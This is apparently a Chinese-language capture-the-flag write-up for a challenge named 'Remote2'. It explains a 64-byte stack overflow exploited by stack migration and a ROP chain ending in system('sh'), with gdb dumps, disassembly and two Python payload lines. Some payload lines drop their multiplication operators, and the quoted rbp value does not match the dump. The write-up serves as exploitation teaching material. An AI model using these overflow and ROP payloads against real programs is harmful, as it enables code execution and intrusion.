 Remote2
==========
這題在比賽當天沒有想出來，後來看到別人的想法才摸出來的，不過實作上也花了一些時間...
主要用到 stack migration 和 ROP 來做。

解題流程
----------
程式一開始會用執行 "lsh"，之後逐字讀取 64bytes 到 buffer 上，然後就馬上 retuen。
先用 gdb 觀察一下 buffer 和 rbp 的距離，rbp此時為 0x7ffc98f88e1。

	(gdb) x/10gx $rsp
	0x7fffffffdf50: 0x4141414141414141      0x0000000000000000
	0x7fffffffdf60: 0x00000000004005c0      0x0000000000400470
	0x7fffffffdf70: 0x00007fffffffe060      0x0000000800000000
	0x7fffffffdf80: 0x00000000004005c0      0x00007ffff7a58730
	0x7fffffffdf90: 0x0000000000000000      0x00007fffffffe068

可以發現 64bytes 只夠我們剛好塞到 retuen address，後面沒有空間放其他 gadget。所以我們將要做的事分成兩次送。

第一輪我們先利用 stack migration 把 rbp 引導到自己找的 buffer 上，並 retuen 回 main 裡面讀取字元的程式區塊，將 ROP chain 讀到新的 buffer 上。
```python
'A'*44 + '\x2c\x00\x00\x00' + p64(buf+0x80) + p64(main_read)
```

可以讀到新的 buffer 上是因為程式為由 rbp 為基準，推算出區域變數的位置。所以 rbp 一改，buffer 的位址也跟著變了。
<pre>
400582:       8b 45 fc                mov    eax,DWORD PTR [<b>rbp-0x4</b>]
400585:       48 8d 55 d0             lea    rdx,[<b>rbp-0x30</b>]
400589:       48 01 d0                add    rax,rdx
40058c:       ba 01 00 00 00          mov    edx,0x1
400591:       48 89 c6                mov    rsi,rax
400594:       bf 00 00 00 00          mov    edi,0x0
400599:       e8 a2 fe ff ff          call   400440 <read@plt>
</pre>
----------
另外有個地方要特別注意，由於這題是一個字一個字讀輸入，我們在蓋 buffer 時會把位於 rbp-0x4，
用來計數的值寫掉。
<pre>
0x7fffffffdf70: 0x00007fffffffe060      0x<b>00000008</b>00000000
</pre>
這會導致程式沒辦法正確判斷你讀了幾 byte 以及該讀去哪個位置。所以蓋到這邊的時候，必須將該位址原本的值再寫上去。

----------
最後，利用 leave ret 的 gadget 將 rsp 指到 ROP chain 上，並跳進第一個 gadget 開始跑，就可以拿到 shell 了！
```python
'A'7 + p64(pop_rdi_ret) + p64(sh) + p64(system) + 'A'12 + '\x2c\x00\x00\x00' + p64(buf+0x80-0x30) + p64(leave_ret)
```
